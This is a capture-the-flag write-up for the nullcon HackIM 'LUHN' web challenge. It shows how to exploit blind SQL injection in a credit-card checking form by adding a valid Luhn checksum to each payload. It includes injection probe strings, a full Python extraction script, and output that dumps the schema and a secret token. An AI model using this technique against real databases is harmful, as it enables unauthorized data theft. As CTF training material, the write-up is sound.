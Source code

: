 # nullcon HackIM : LUHN

**Category:** Web
**Points:** 300
**Solves:** 
**Description:**

> A new service allows you to check if you credit card has been compromised. You just need to enter your credit card number and you instantly know if it has been leaked on the Darknet.
> 
> 
> <http://52.91.163.151/>


## Write-up

**by lanjelot**

The website consists of only one form that POSTs the `cc` parameter.

* Submitting the credit card number 4111111111111111 returns "Your CC has been compromised".
* Submitting a number with an invalid Luhn checksum (e.g. 4111411141114111) returns "Invalid CC".
* Submitting a number with a valid Luhn checksum (e.g. 4123123412341236) returns "We do not have your CC in our database".

The `cc` parameter seems to be vulnerable to SQL injection because `cc=4111111111111111' and 0=0-- ` returns "Your CC has been compromised". However sending `' or 1=1-- ` returns "Invalid CC".

Looks like in order to exploit the SQL injection, our payload must have a valid [Luhn](https://en.wikipedia.org/wiki/Luhn_algorithm) checksum (i.e. 00 is valid but 11 isn't ). So I found this neat Python [project] (https://github.com/benhodgson/baluhn) to generate valid checksums.

And I used my SQLi framework [albatar](https://github.com/lanjelot/albatar) to automate exploitation:

```python
#!/usr/bin/env python

from albatar import *
from baluhn import generate
from urllib import quote

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Your CC has been compromised' in body:
    return 1
  else:
    return 0

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return quote(s + generate(''.join(digits)))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      encode_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

Output:
```
$ python luhn.py --columns
21:35:21 albatar - Executing: ('SELECT COUNT(*) FROM information_schema.columns WHERE table_schema NOT IN ("information_schema","mysql","performance_schema")', 'SELECT CONCAT_WS(0x3a,table_schema,table_name,column_name) FROM information_schema.columns WHERE table_schema NOT IN ("information_schema","mysql","performance_schema") LIMIT ${row_pos},1')
21:35:22 albatar - count: 4
cccheck:cc:id
cccheck:cc:cc_number
cccheck:token:id
cccheck:token:value
21:35:44 albatar - Time: 23.11 seconds
$ python luhn.py -D cccheck -T token -C value --dump
21:36:02 albatar - Executing: ('SELECT COUNT(*) FROM cccheck.token', 'SELECT CONCAT_WS(0x3a,value) FROM cccheck.token LIMIT ${row_pos},1')
21:36:04 albatar - count: 1
RIeVoh3eeahthu7Ee
21:36:08 albatar - Time: 6.31 seconds
```

## Other write-ups and resources

* none yet
